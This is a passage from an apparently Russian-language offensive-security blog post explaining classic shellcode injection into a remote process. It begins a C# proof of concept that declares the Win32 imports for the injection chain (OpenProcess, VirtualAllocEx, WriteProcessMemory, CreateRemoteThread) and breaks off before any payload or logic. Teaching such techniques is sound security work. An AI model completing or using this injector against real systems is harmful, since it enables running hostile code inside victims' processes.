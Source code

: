 [![classic-shellcode-injection.png](/assets/images/keethief-syscalls/classic-shellcode-injection.png)](/assets/images/keethief-syscalls/classic-shellcode-injection.png)
{:.center-image}

Исполнение шеллкода с помощью Thread Execution (изображение — elastic.co)
{:.quote}

Напишем простой PoC на C#, демонстрирующий эту самую классическую инъекцию шеллкода.

```csharp
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace SimpleInjector
{
    public class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(
            uint processAccess,
            bool bInheritHandle,
            int processId);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(
            IntPtr hProcess,
            IntPtr lpAddress,
            uint dwSize,
            uint flAllocationType,
            uint flProtect);

        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(
            IntPtr hProcess,
            IntPtr lpBaseAddress,
            byte[] lpBuffer,
            Int32 nSize,
            out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(
            IntPtr hProcess,
            IntPtr lpThreadAttributes,
            uint dwStackSize,
            IntPtr lpStartAddress,
```

[//]: # (2022-03-29)